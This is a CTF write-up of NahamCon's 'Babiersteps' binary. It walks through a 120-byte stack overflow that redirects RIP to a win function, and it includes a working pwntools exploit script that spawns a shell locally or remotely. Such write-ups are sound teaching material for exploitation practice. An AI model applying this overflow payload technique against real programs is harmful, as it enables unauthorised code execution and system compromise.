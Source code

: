 This is my writeup for the "Babiersteps" challange from NahamCon 2020.

After downloading the babier file we run the ```file ./babiersteps``` command wich gives the folowing output:

![alt text](images/file.png?raw=true "File")

We can see that the barbier file is a 64 bit elf file.

When we run a obj dump (```bjdump ./babiersteps -d```). we can see that the program contains a win function at address ```0x4011c9.```

![alt text](images/segfault.png?raw=true "win")


After making the file executable and running we are shown the text "Everyone has heard of gets, but have you heard of scanf?".
If we input some random characters the program wil seemingly do nothing and shut down. If we give the program an input thats over 120 bytes the progrem wil return a segment fault.

![alt text](images/segfault.png?raw=true "seg")

If we open the program in gdb can get a better look at what is going on. ```gdb ./babiersteps``` (Note: I am using geff extention for gdb).
When we imput a lot of A's (300) we can see that we clotter most of the stack but not the RIP (instruction pointer) wich we want to control and point to our win function.

Because the file is a 64 bit elf the RIP address has to be a 48 bit canonical address wich means the address has to be in the range ```0x0000000000000000``` to ```0x00007FFFFFFFFFFF``` and ```0xFFFF800000000000``` to ```0xFFFFFFFFFFFFFFFF```. otherwise the address wont be able to clutter the RIP. If we input a bunch of A's we are overwriting the rip with a non-canonical address. If we however run the program with 120 A's up to the point of getting the segfault(offset) and add a 6 bytes canonial address of 6 B's ```0x0000424242424242``` to the end we can see we can control the RIP.

![alt text](images/control.png?raw=true "control")

Now all we have to do is point the address to our win function and hope we get the flag. Our win function was located at ```0x4011c9.```.
We can use pyton to give us the addres in little endian ```python3 -c 'import struct;print(struct.pack("<I",0x4011c9))'```. We then need to add \x00\ 5 times to make the address canonical. If we input this address after our offset we can point to the win function.

I made a little python script using pwn tools to handle the program localy or remotly.

```
import argparse
from pwn import *
import struct;

offset = b"A"*120
rip = b"\xc9\x11@\x00\x00\x00\x00\x00\x00"

payload = b"".join([offset,rip]) 

parser = argparse.ArgumentParser()
parser.add_argument(
        '--host',
        type=str,
        help='The host name or IP address to connect to'
        )
parser.add_argument(
        '--port',
        type=int,
        help='The port for the service to connect to'
        )
parser.add_argument(
        '--file',
        type=str,
        help='Elf file to exploit'
        )

args = parser.parse_args()

if args.host and args.port:
        p = remote(args.host, args.port)

elif args.file and not(args.host) and not(args.port):
        elf = ELF(args.file)
        libc = elf.libc
        p=process(elf.path)

else:
        print("No arguments supplied")
        exit()


p.recvuntil('?')
p.sendline(payload)
p.interactive()
```

If we run this program localy (```python3 payload.py --file ./babiersteps```) we can see that the win function spawned a shell for us and we can cat out the flag.

![alt text](images/flag.png?raw=true "flag")

Thanks for reading, Suggestions & Feedback are appreciated !